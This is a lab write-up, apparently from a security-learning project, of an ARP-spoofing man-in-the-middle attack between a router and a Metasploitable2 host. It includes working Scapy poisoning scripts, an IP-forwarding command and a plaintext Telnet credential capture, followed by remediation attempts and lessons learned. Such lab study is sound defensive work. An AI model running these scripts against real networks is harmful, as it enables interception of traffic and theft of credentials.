




## Objective

Exploit ARP's lack of authentication to perform a bidirectional man-in-the-middle 
attack between two hosts on the same VLAN — poisoning both parties' ARP caches to 
route their traffic through the attacker, then intercepting unencrypted traffic 
(Telnet credentials) as a real-world demonstration of impact.

## Attack Mechanism

ARP has no built-in authentication — any device on a broadcast domain can send an 
ARP reply claiming ownership of any IP address, and most operating systems will 
trust it. This attack requires the attacker and both targets to share the same 
VLAN/broadcast domain, since ARP does not route across subnets.

The attacker sends unsolicited ("gratuitous") ARP replies to each target, falsely 
claiming that the other target's IP address maps to the attacker's own MAC 
address. During testing, it was discovered that a gratuitous ARP reply is only 
accepted if the target **already has an existing cache entry** for the claimed 
IP — if no prior entry exists, the reply is silently dropped rather than creating 
a new one. This held true across three different target operating systems 
tested (see Recon/PoC below).

Once both targets' caches are poisoned — each now sending traffic intended for 
the other directly to the attacker's MAC — the attacker enables IP forwarding, 
allowing it to transparently relay traffic between the two victims. Neither 
victim can tell their traffic is being routed through a third party, since 
connectivity between them continues to function normally.

[More on ARP spoofing →](https://www.imperva.com/learn/application-security/arp-spoofing/)

## Recon

An `nmap -sn 192.168.10.0/24` scan from Kali discovered the live hosts sharing 
the attacker's broadcast domain:


Pinging each discovered host from Kali populated Kali's own ARP cache, revealing 
their real MAC addresses — a necessary step before crafting any forged ARP 
reply, since the attacker needs the victim's real MAC to actually deliver the 
forged frame.

## Exploitation (PoC)

To establish a baseline before attempting a full MITM, a unidirectional test was 
performed first — proving a target's ARP cache could actually be poisoned via a 
single crafted, unsolicited ARP reply.

**`poisonArp.py`:**
```python
#!/usr/bin/env python3
from scapy.all import *
arp_reply = (Ether(dst="00:0c:29:d3:85:ab") / ARP(op=2, psrc="192.168.10.1", 
             hwsrc="00:0c:29:69:a3:9a", pdst="192.168.10.32", 
             hwdst="00:0c:29:d3:85:ab"))
sendp(arp_reply, iface="eth0")
```

Run once against Metasploitable2 (192.168.10.32), this script sends a single 
forged reply claiming R1's IP (192.168.10.1) belongs to Kali's MAC address.

**Result:** the poisoned entry appeared successfully — but only once 
Metasploitable2 already had a genuine, prior entry for 192.168.10.1 to overwrite 
(see Attack Mechanism above for why gratuitous ARP alone failed to create a new 
entry from scratch across three tested OSes). Additionally, since this was a 
single reply rather than a loop, the poisoned entry naturally decayed and 
reverted once the victim's cache timeout expired — motivating the looped 
approach used in the full attack below.

**Before** (legitimate entry, R1's real MAC):


**After** (poisoned entry, Kali's MAC):


## Exploitation (Full Attack)

> **Setup note:** to provide a realistic unencrypted service to demonstrate 
> credential interception, R1's VTY lines were configured with Telnet access 
> and a simple password (`line vty 0 4` / `password MySecret` / `login`).

The single-shot PoC proved the mechanism but decayed too quickly...

The single-shot PoC proved the mechanism but decayed too quickly for a sustained 
MITM position. Two looped scripts were built — one continuously re-poisoning 
each target every 2 seconds, keeping the forged entries in place indefinitely.

**`poison-meta.py`** (poisons Metasploitable2 — claims R1's IP is at Kali's MAC):
```python
#!/usr/bin/env python3
import time
from scapy.all import *
arp_reply = (Ether(dst="00:0c:29:d3:85:ab") / ARP(op=2, psrc="192.168.10.1", 
             hwsrc="00:0c:29:69:a3:9a", pdst="192.168.10.32", 
             hwdst="00:0c:29:d3:85:ab"))
while True:
    sendp(arp_reply, iface="eth0")
    time.sleep(2)
```

**`poison-r1.py`** (poisons R1 — claims Metasploitable2's IP is at Kali's MAC):
```python
#!/usr/bin/env python3
import time
from scapy.all import *
arp_reply = (Ether(dst="ca:01:0a:4c:00:00") / ARP(op=2, psrc="192.168.10.32", 
             hwsrc="00:0c:29:69:a3:9a", pdst="192.168.10.1", 
             hwdst="ca:01:0a:4c:00:00"))
while True:
    sendp(arp_reply, iface="eth0")
    time.sleep(2)
```

Both scripts were run simultaneously in separate terminals, poisoning 
Metasploitable2 (thinks Kali is R1) and R1 (thinks Kali is Metasploitable2) at 
the same time and holding both entries in place continuously.


With both caches poisoned, IP forwarding was enabled on Kali 
(`sysctl -w net.ipv4.ip_forward=1`), positioning Kali as a transparent relay. 
Metasploitable2 sent an ICMP echo request to R1 — the ping succeeded normally, 
while Kali's capture confirmed the traffic was passing directly through it in 
both directions:


To demonstrate real-world impact beyond simple traffic relay, Metasploitable2 
then opened a Telnet session to R1. Since Telnet transmits every character 
unencrypted, Kali's capture showed the login password in plaintext, one 
keystroke at a time:


## Impact

Beyond capturing a single set of Telnet credentials, a MITM position achieved 
through ARP spoofing enables far more damaging attacks: session hijacking 
(taking over an already-authenticated session), packet injection (altering 
traffic in transit before forwarding it — for example, intercepting a DNS query 
and returning a forged response to redirect a victim to an attacker-controlled 
site instead of the real one), and broader traffic manipulation across any 
protocol crossing the poisoned link, not just Telnet.

This attack is also more dangerous specifically because it's internal. External, 
perimeter-facing traffic is commonly encrypted by default, but internal LAN 
traffic is frequently assumed "safe" simply because it never leaves the local 
network — an assumption ARP spoofing directly breaks, since the attacker only 
needs a foothold on the same VLAN, not any access to the wider internet path. 
On a real internal network, this could mean intercepted credentials, altered or 
leaked sensitive data, and a foothold for further attacks such as ransomware 
deployment.

## Remediation

### Attempted Fix #1 — Dynamic ARP Inspection (DAI)

Dynamic ARP Inspection is the standard, purpose-built Cisco countermeasure for 
ARP spoofing. It validates incoming ARP replies against a trusted binding table 
of legitimate IP-MAC pairings, dropping anything that doesn't match.

A static ARP ACL (`DAI-VLAN10`) was configured with explicit trusted bindings 
for all three real hosts on the VLAN — R1, Metasploitable2, and Kali — then 
applied to VLAN 10 with DAI enabled.

**Result: this fix did not work as expected.** Even with correct, explicit 
permit entries for all three legitimate hosts, DAI began dropping legitimate 
traffic inconsistently — in some configurations blocking Kali's ping to R1, in 
others blocking both Kali and Metasploitable2 simultaneously, with no clear 
correlation to which binding was added or in what order.



Despite explicit permits for all three hosts, a high proportion of traffic was 
still dropped (84 of 201 total packets). The log buffer (`show ip arp 
inspection log`) remained empty throughout testing, even with logging enabled 
on the ACL entries — preventing further root-cause diagnosis through normal 
means.

This is consistent with a pattern already observed in attack-01: this IOU 
switch image is an early-deployment development build, not production Cisco 
IOS, and its behavior does not always match documented functionality. After 
isolating variables methodically (single binding, incremental additions, full 
resets) without finding a stable working configuration, this fix was abandoned 
in favor of a more reliable alternative. A better-licensed or production-grade 
IOU image is worth investigating for future lab iterations.

### Attempted Fix #2 — Static ARP Entries (Successful)

Since DAI proved unreliable on this platform, static ARP entries were applied 
directly on both endpoints — hardcoding each host's knowledge of the other, 
immune to being overwritten by any incoming ARP reply, forged or legitimate.

**On R1:**

```
arp 192.168.10.32 000c.29d3.85ab arpa
```
**On Metasploitable2:**

```
arp -s 192.168.10.1 ca:01:0a:4c:00:00
```
**Limitation:** static ARP entries only protect the specific pairing they're 
configured for. In an uncontrolled network (e.g., a shared or public network), 
this approach doesn't scale — an attacker could still poison the relationship 
between any two *other* hosts that lack static entries. This fix is realistic 
and effective specifically in a small, controlled environment where every 
critical device-to-device relationship can be manually hardcoded — such as a 
server-to-gateway link — but is not a general-purpose defense for a large or 
dynamic network.

## Re-verification

Both flood scripts (`poison-r1.py` and `poison-meta.py`) were re-run 
continuously against their targets while the static ARP entries were in place.



**Result:** neither cache changed. Metasploitable2's entry for R1 remained 
locked as a permanent (`PERM`) entry, and R1's entry for Metasploitable2 
remained static, both showing the correct, real MAC addresses throughout the 
entire test — despite continuous forged replies arriving every 2 seconds.





Static ARP entries proved to be a reliable fix for this specific attack path, 
with the scope limitation noted above.

## Lessons Learned

This attack surfaced a real gap between documented theory and actual behavior 
from the very start: gratuitous ARP replies were not accepted by default on 
several tested systems (Alpine, TinyCore, a fresh Metasploitable2 instance) 
unless the target already had a genuine prior entry to overwrite — a 
meaningful nuance the initial research hadn't covered. Alpine and TinyCore's 
RAM-only, non-persistent nature also introduced its own friction (losing 
configuration on every restart), which shaped the decision to rely on a cloned 
Metasploitable2 instance as the primary same-VLAN target instead.

GNS3 links repeatedly desynced mid-session — a recurring quirk requiring a 
delete-and-reconnect to restore connectivity, now seen enough times across 
this project to treat as a known environment behavior rather than a one-off.

Remediation proved difficult again, in a similar way to attack-01: the 
standard, well-documented fix (Dynamic ARP Inspection) failed for reasons that 
resisted systematic debugging, consistent with the same underlying IOU 
dev-build limitations identified during attack-01's native VLAN tagging 
investigation (see that write-up for details). Rather than continue chasing an 
unreliable platform indefinitely, the more productive move was to apply a 
working alternative fix immediately and treat the platform issue itself as a 
separate, longer-term problem — worth revisiting with a more reliable IOU image 
in a future session, rather than blocking progress on this attack. The broader 
lesson: when a standard fix fails for reasons that don't make sense, don't 
keep fighting it in the moment — solve the immediate problem with whatever 
reliable alternative works, then investigate the root cause separately, on 
its own time.
